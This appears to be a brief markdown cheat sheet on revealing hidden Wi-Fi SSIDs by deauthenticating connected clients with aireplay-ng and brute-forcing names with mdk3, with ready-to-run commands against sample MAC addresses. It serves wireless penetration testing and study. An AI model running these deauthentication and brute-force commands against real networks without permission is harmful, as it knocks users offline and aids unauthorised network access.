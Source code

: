 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name. 

Once setup, dump networks:
```
airodump-ng wlan1mon --band agp -w dump
```
Deauth target MAC:
```
aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
